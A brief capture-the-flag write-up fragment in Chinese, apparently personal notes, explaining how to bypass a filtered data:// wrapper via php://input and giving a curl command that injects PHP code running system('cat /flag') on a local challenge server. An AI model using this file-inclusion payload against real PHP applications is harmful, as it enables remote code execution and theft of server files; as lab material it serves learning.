 ![[Pasted image 20241026210635.png]]
过滤了`data`伪协议，用`php://input`或者`php://filter`构造内容绕过即可，注意php标签

```shell
curl -s 'localhost:8080?file=php://input' --data-raw 'Plastic chair<?php system("cat /flag");' | grep Spirit
```

![[Pasted image 20241026210831.png]]